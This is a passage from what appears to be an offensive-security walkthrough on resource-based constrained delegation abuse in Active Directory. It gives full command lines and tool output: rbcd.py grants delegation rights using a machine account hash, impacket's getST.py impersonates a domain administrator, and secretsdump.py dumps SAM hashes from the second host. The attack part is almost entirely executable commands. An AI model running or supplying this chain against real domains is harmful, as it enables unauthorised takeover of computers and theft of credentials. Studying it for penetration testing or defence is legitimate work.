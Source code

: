 1
2
python3 rbcd.py -u PC01$ -H aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248 -t 'CN=PC02,CN=Computers,DC=domain,DC=local' -d domain.local -c 'CN=PC01,CN=Computers,DC=domain,DC=local'  -l DC1.domain.local
Successfully added permissions!
Use the getST.py script from impacket to create a service ticket for an administrative user on the second computer, using the hash of the first computer.

1
2
3
4
5
6
getST.py -spn cifs/PC02 -hashes aad3b435b51404eeaad3b435b51404ee:6216d3268ba7634e92313c8b60293248 -impersonate DA domain.local/PC01\$ 
[*] Getting TGT for user
[*] Impersonating DA
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in DA.ccache
Once the ticket is created, pass the ticket to the second computer to gain administrative access over it.  Dump hashes, pop a shell, or do whatever you need to do on that system.

1
2
3
4
5
secretsdump.py -k PC02.domain.local
[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0x61cfb90260afec6e8c031f997d1df4bb
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Resources:

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
https://www.thehacker.recipes/active-directory-domain-services/movement/abusing-kerberos/kerberos-delegations#resource-based-constrained-delegations-rbcd

